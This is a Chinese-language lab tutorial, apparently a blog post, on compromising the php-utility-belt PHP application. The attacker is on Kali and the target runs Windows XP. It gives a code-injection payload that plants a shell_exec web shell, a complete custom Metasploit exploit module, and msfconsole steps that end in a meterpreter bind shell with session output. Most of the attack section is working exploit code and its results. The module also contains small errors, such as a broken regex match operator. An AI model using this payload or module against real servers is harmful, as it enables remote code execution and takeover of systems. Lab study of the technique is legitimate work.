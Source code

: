# Metasploit渗透php-utility-belt程序

攻击机 kali 192.168.109.137

靶机：Win XP 192.168.109.141

应用程序 php-utility-belt (可以到链接：https://download.csdn.net/download/l1028386804/10923054 下载)

## 部署php-utility-belt

由于php-utility-belt是php程序，所以我们需要安装php环境,这里我为了简单直接安装了wamp环境。

将php-utility-belt解压后放在wamp的www目录下，

![img](https://img-blog.csdnimg.cn/20190117160010746.png)

同时在浏览器中访问链接：http://192.168.109.141/php-utility-belt/

如下图所示：

![img](https://img-blog.csdnimg.cn/20190117160027242.png)

显示这个页面就证明我们部署成功了。

## 构造并提交攻击脚本

我们文本框中输入如下代码：

```
fwrite(fopen('info.php','w'), '<?php $a = "net user"; echo shell_exec($a);?>');
```

并点击Run按钮

![img](https://img-blog.csdnimg.cn/20190117160107698.png)

## 查看php-utility-belt下的文件

此时，我们发现php-utility-belt下多了一个info.php文件

![img](https://img-blog.csdnimg.cn/20190117160129303.png)

我们查看这个文件的内容：

![img](https://img-blog.csdnimg.cn/20190117160142397.png)

## 访问info.php

我们在浏览器中输入：http://192.168.109.141/php-utility-belt/info.php 访问info.php。

![img](https://img-blog.csdnimg.cn/20190117160203928.png)

这里，会显示靶机上的所有用户，说明php-utility-belt存在漏洞。

## 进一步分析php-utility-belt的漏洞

在google或firefox浏览器按下F12键，通过对网页代码的分析，文本框中的数据是通过参数code进行post提交的。

![img](https://img-blog.csdnimg.cn/20190117160230265.png)

## 编写攻击脚本php_utility_belt_attack_by_binghe.rb

```
##
# Author 冰河
# Date 2019-01-17
# Description Metasploit渗透 php utility belt
##

require 'msf/core'

class Metasploit4 < Msf::Exploit::Remote
  include Msf:: Exploit::Remote::HttpClient
  
  def initialize(info = {})
    super(update_info(info,
      'Name'              => 'PHP Utility Belt Remote Code Execution',
      'Description'       => %q{
          This module exploits a remote code execution vulnerability in P
        },
       'Author'           =>
        [
          'binghe'
        ],
       
       'DisclosureDate'   => '2019-01-17',
       'Platform'         => 'php',
       'Payload'          =>
        {
          'Space'         => 2000,
          # 现在的漏洞在一个Web应用程序中，而不是在软件程序中，所以要将DisableNops的值设置为true以关闭攻击载荷中的NOP
          'DisableNops'   => true   
        },
       
       'Targets'          =>
        [
          ['PHP Utility Belt', {}]
        ],
       'DefaultTarget'   => 0))
    
    register_options(
      [
        OptString.new('TARGETURI', [true, 'The path to PHP Utility Belt', '/php-utility-belt/ajax.php']),
        OptString.new('CHECKURI', [false, 'Checking Perpose', '/php-utility-belt/info.php']),
      ], self.class) 
    end
    
    def check
      send_request_cgi(
          'method'        => 'POST',
          'uri'           => normalize_uri(target_uri.path),
          'vars_post'     => {
              'code'      => "fwrite(fopen('info.php','w'), '<?php echo phpinfo();?>');"
            }
      )   
    resp = send_request_raw({'uri'  => normalize_uri(datastore['CHECKURI']), 'method' => 'GET'})
    if resp.body = ~/phpinfo()/
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end
   end
   
   def exploit
    send_request_cgi(
      'method'        => 'POST',
      'uri'           => normalize_uri(target_uri.path),
      'vars_post'     => {
        'code'        => payload.encoded
      }
    )
   end
   
end
```

## 上传攻击脚本php_utility_belt_attack_by_binghe.rb

将攻击脚本php_utility_belt_attack_by_binghe.rb上传的Kali的/usr/share/metasploit-framework/modules/exploits/web/php目录下。

## 运行攻击脚本php_utility_belt_attack_by_binghe.rb

```
msfconsole
use exploit/web/php/php_utility_belt_attack_by_binghe 
set payload php/meterpreter/bind_tcp
set RHOST 192.168.109.141
show options
exploit
sysinfo
```

具体操作效果如下：

```
msf > use exploit/web/php/php_utility_belt_attack_by_binghe 
msf exploit(web/php/php_utility_belt_attack_by_binghe) > set payload php/meterpreter/bind_tcp
payload => php/meterpreter/bind_tcp
msf exploit(web/php/php_utility_belt_attack_by_binghe) > set RHOST 192.168.109.141
RHOST => 192.168.109.141
msf exploit(web/php/php_utility_belt_attack_by_binghe) > show options

Module options (exploit/web/php/php_utility_belt_attack_by_binghe):

   Name       Current Setting             Required  Description
   ----       ---------------             --------  -----------
   CHECKURI   /php-utility-belt/info.php  no        Checking Perpose
   Proxies                                no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      192.168.109.141             yes       The target address
   RPORT      80                          yes       The target port (TCP)
   SSL        false                       no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /php-utility-belt/ajax.php  yes       The path to PHP Utility Belt
   VHOST                                  no        HTTP server virtual host


Payload options (php/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  4444             yes       The listen port
   RHOST  192.168.109.141  no        The target address


Exploit target:

   Id  Name
   --  ----
   0   PHP Utility Belt


msf exploit(web/php/php_utility_belt_attack_by_binghe) > exploit

[*] Started bind TCP handler against 192.168.109.141:4444
[*] Sending stage (38247 bytes) to 192.168.109.141

meterpreter > sysinfo
Computer    : LIUYAZHUANG
OS          : Windows NT LIUYAZHUANG 5.1 build 2600 (Windows XP Professional Service Pack 3) i586
Meterpreter : php/windows
meterpreter > 
```

到此，我们已经拿到了靶机的Shell，后续就可以进行各种渗透操作了。